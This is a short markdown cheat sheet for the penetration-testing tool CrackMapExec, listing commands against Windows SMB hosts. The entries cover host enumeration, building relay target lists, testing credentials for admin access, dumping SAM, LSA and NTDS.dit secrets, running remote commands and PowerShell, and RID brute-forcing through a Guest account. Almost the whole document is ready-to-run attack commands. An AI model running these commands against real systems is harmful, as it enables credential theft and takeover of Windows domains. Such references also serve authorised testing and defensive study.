 # CrackMapExec

### Find ip/hostname/SMB Signinig/etc:

```bash
crackmapexec smb targets.txt
```

### Generate a list of SMB Signing disabled for relays

```bash
crackmapexec smb targets.txt --gen-relay-list relay.txt
```

### Find hosts user can log into/is admin on

```bash
crackmapexec smb targets.txt -u user -p 'password'
```

### Enumerate shares

```bash
crackmapexec smb ip -u user -p 'password' --shares
```

### Dump SAM

```bash
crackmapexec smb ip -u user -p 'password' --sam
```

### Dump LSA

```bash
crackmapexec smb ip -u user -p 'password' --lsa
```

### Pass cmd

```bash
crackmapexec smb ip -u user -p 'password' -x 'command'
```

### Pass powershell

```bash
crackmapexec smb ip -u user -p 'password' -X 'command'
```

### List users if Guest account is enabled

```bash
crackmapexec smb (ip) -u 'Guest' -p '' --rid-brute
```

### Look at domain admins

```bash
crackmapexec smb ip -u user -p 'password' -x 'net group "Domain Admins" /domain'
```

### Look at logged on users

```bash
crackmapexec smb ip -u user -p 'password' --loggedon-users
```

### Look at NTDS.dit - is LOUD - USE WITH CAUTION

```bash
crackmapexec smb dc-ip -u domain-admin-user -p 'password' --ntds
```
